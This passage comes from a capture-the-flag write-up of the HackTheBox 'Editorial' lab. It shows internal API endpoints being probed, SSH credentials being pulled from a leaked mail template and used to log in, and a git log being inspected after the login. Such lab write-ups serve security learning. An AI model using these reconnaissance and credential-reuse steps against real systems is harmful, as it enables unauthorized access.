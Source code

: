 ```bash
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Then, digging a little further to `http://127.0.0.1:5000/api/latest/metadata/messages/authors` endpoint there was the ssh credential: `dev:dev080217_devAPI!@`

```bash
$ curl http://editorial.htb/static/uploads/9dc18526-9b01-452f-b796-4ca12fefa3cf | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```
## Initial Access

I tried the credential, and I was in via SSH! `dev:dev080217_devAPI!@` and got the user flag - `user.txt`

```bash
c97634fc5...
```

Digging around, I found a directory called 'apps,' and inside, a `.git` directory. Always worth a peek!

```bash
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun  5 14:36 .
drwxr-x--- 4 dev dev 4096 Jun 24 11:45 ..
drwxr-xr-x 8 dev dev 4096 Jun  5 14:36 .git
```

### Git Commit

Checking the `git log` I see `change(api): downgrading prod to dev` - now that's something that will catch my eye!

```bash
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

```

